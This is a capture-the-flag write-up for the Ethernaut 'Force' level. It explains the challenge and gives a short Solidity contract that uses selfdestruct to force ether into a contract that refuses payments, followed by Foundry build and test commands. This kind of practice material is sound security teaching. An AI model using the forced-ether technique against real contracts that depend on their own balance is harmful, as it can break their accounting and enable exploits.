

# Question Statement
Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

    Fallback methods
    Sometimes the best way to attack a contract is with another contract.
- Reference -> https://ethernaut.openzeppelin.com/level/0x46f79002907a025599f355A04A512A6Fd45E671B

# Solution Approach
using selfdestruct from another contract
```solidity
contract TemperarySelfDestructContract {
    function attack(address payable _addr) external {
        // it will show warning but ignore that
        selfdestruct(_addr);
    }

    fallback() external payable {}

    receive() external payable {}
}
```

# Test Code File 
- [Force.t.sol](./test/Force.t.sol)


# Test Output



# Code Setup 
``` 
$ forge install
$ forge build
$ forge test -vvvv
```

# Reference
- [vm.deal()](https://book.getfoundry.sh/cheatcodes/deal)
- [vm.assertEq()](https://book.getfoundry.sh/reference/forge-std/assertEq)